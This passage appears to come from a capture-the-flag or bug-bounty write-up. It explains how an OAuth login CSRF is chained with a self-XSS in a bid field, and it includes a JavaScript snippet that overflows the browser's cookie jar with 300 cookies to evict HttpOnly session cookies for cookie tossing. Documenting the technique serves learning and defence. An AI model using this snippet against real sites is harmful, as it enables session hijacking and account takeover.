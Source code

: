 ```python
        print(f"Sent bid '{bid_value}' -> Status: {r.status_code}")
```

Running the script and then visiting `My Bids`, gives us a alert box

![img](assets/self.png)

# Cookie Jar Overflow + Cookie Tossing

We have Oauth Login CSRF and self xss, but whats the impact here? We can only make someone login into our account and execute js

Since the session cookie is set HTTPOnly we cannot overwrite it using Javascript.

But we can use a script like this

```javascript
for (let i = 0; i < 300;i++){
    document.cookie = "cookie"+i+"=a; Secure"
}

for (let i = 0; i < 300;i++){
    document.cookie = "cookie" + i + "=a; expires=Thu, 01 Jan 1970 00:00:01 GMT";
}
```

There is a limit on how many cookies can exist for a specific domain, with this we can also remove HTTPOnly cookies
